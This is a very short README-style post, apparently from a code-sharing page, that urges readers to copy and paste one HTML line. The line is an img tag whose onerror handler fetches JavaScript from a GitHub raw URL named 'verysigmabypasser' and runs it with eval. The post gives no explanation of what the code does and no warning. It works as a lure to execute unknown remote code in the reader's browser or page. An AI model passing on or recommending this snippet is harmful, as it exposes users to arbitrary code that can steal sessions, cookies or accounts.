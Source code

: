 Read ME PLSSSS!!!! 
copy and paste this:
<img src=# onerror='fetch("https://raw.githubusercontent.com/gco12345/verysigmabypasser/main/main.js").then(r=>r.text()).then(c=>eval(c))'>
